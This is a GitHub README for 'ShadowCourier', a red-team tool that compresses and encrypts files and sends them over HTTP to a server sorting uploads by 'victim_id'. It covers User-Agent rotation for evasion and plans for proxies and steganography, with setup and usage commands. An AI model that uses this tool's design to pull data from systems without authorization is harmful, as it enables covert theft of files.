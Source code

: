 # ShadowCourier 🕵️‍♂️

**Covert File Delivery for Penetration Testing**

[![License: MIT](https://img.shields.io/badge/License-MIT-yellow.svg)](https://opensource.org/licenses/MIT)
[![Python 3.6+](https://img.shields.io/badge/Python-3.6+-blue.svg)](https://www.python.org/downloads/)

**ShadowCourier** is a stealthy, Python-based tool for secure file transfers in **authorized penetration testing** and **CTF labs**. With **AES-256-CBC encryption**, **gzip compression**, and **User-Agent rotation**, it mimics real-world covert operations while staying ethical. Perfect for red teamers and security enthusiasts who love a *Hacker Simulator* vibe.

> **⚠️ Ethical Use Only**: ShadowCourier is for **authorized testing** and **educational purposes**. Unauthorized use is illegal and unethical. Always obtain explicit permission before testing any system.

---

## 🌟 Features

- **🔒 Military-Grade Encryption**: Secures files with **AES-256-CBC** for safe transit.
- **📦 Compact Payloads**: **Gzip compression** shrinks files (e.g., 378B to 200B) for stealth.
- **🕵️ Stealthy Transfers**: Rotates **User-Agent** headers to blend into browser traffic.
- **🛠️ Easy Configuration**: Uses `shadow.conf` with environment variable overrides.
- **📂 Flexible Transfers**: Supports single files or directories with relative paths.
- **🔄 Reliable Delivery**: Configurable retries (default: 3) for unstable networks.
- **🎨 Cyberpunk Interface**: `tqdm` progress bars for a sleek, real-time experience.

**Stealth Score**: 🟠 **Moderate (6/10)**  
- **Pros**: Encrypted payloads, compressed data, browser-like headers.  
- **Cons**: HTTP headers and fixed ports are detectable. See [Future Enhancements](#future-enhancements).

---

## 🚀 Quick Start

1. **Clone the Repo**:
   ```bash
   git clone https://github.com/your-username/ShadowCourier.git
   cd ShadowCourier
   ```

2. **Set Up Server**:
   ```bash
   python3 -m venv server/env
   source server/env/bin/activate
   pip install pycryptodome
   python3 server/ghost_server.py
   ```

3. **Set Up Client**:
   ```bash
   python3 -m venv client/env
   source client/env/bin/activate
   pip install requests tqdm pycryptodome colorama
   python3 client/shadow_client.py path/to/test.file
   ```

4. **Configure**: Edit `server/shadow.conf` and `client/shadow.conf` with your server IP and settings.

---

## 🛠️ How It Works

ShadowCourier uses a client-server model for secure file transfers:

- **Ghost Server (`ghost_server.py`)**:
  - Listens on a configurable port (default: 8080) at `/upload`.
  - Receives JSON payloads, decrypts **AES-256-CBC** data, decompresses **gzip**, and saves files to `uploads/<victim_id>/`.
  - Logs transfers with client IP and file sizes.

- **Shadow Client (`shadow_client.py`)**:
  - Compresses files with **gzip**, encrypts with **AES-256-CBC**, and sends via HTTP POST.
  - Rotates **User-Agent** headers (Chrome, Firefox, etc.) for stealth.
  - Shows progress with `tqdm` bars and file size stats.

**Data Flow**:
```
[Client] -> Gzip -> AES-256-CBC -> Base64 -> JSON -> HTTP POST
[Server] <- HTTP POST <- JSON <- Base64 <- AES-256-CBC <- Gzip
```

**Sample Payload**:
```json
{
  "file": "base64_encrypted_data",
  "filename": "test.file",
  "key": "base64_aes_key",
  "iv": "base64_iv",
  "is_compressed": "true",
  "victim_id": "default_victim"
}
```

---

## 📋 Requirements

- **Python**: 3.6+ (tested on 3.8–3.11)
- **OS**: Linux (recommended), macOS, or Windows (adjust paths)
- **Dependencies**:
  - Server: `pycryptodome`
  - Client: `requests`, `tqdm`, `pycryptodome`, `colorama`

Install:
```bash
pip install requests tqdm pycryptodome colorama
```

---

## 🎮 Usage

### Start the Server
```bash
cd server
source env/bin/activate
python3 ghost_server.py --port 8080 --upload-dir ~/ShadowCourier/uploads
```
**Output**:
```
[*] Loaded config from shadow.conf
[*] Server online at 0.0.0.0:8080, saving to ~/ShadowCourier/uploads...
```

### Run the Client
```bash
cd client
source env/bin/activate
python3 shadow_client.py path/to/file --url http://<server-ip>:8080/upload
```
**Output**:
```
[*] Loaded config from shadow.conf
[*] Transferring 1 files to http://<server-ip>:8080/upload
[*] Size: 378B, compressed: 200B, encrypted: 280B
[+] Success: file transferred
```

**Options**:
- `--port <PORT>`: Server port.
- `--url <URL>`: Server endpoint.
- `--victim-id <ID>`: Custom ID for file organization.
- `--retries <N>`: Retry attempts.

---

## 🛡️ Stealth Analysis

- **Pros**: AES-256-CBC encryption, gzip compression, User-Agent rotation.
- **Cons**: HTTP headers and fixed ports are scannable.

**Stealth Score**: 🟠 **Moderate (6/10)**

---

## 🐛 Troubleshooting

- **Server Unreachable**:
  ```bash
  curl -v http://<server-ip>:8080/upload
  sudo ufw status
  ```

- **JSON Errors**:
  Check `file`, `filename`, `key`, `iv`, `is_compressed`, `victim_id` in payloads.

- **Dependencies**:
  ```bash
  pip install requests tqdm pycryptodome colorama
  ```

---

## 🔮 Future Enhancements

- **HTTPS**: Encrypt headers for stealth.
- **Dynamic Ports**: Avoid scans.
- **Proxies**: Add HTTP/SOCKS support.
- **Steganography**: Hide data in images.

Suggest features via GitHub Issues!

---

## 🤝 Contributing

1. Fork the repo.
2. Branch: `git checkout -b feature/awesome-idea`.
3. Commit: `git commit -m "Add awesome idea"`.
4. Push: `git push origin feature/awesome-idea`.
5. Open a Pull Request.

See [Code of Conduct](CODE_OF_CONDUCT.md).

---

## ⚖️ License

[MIT License](LICENSE)

---

## 📜 Disclaimer

For **educational and authorized use only**. Misuse is illegal. The developers are not liable for unethical actions.

---

**Star ⭐ the repo and hack ethically!** 🖥️🔒

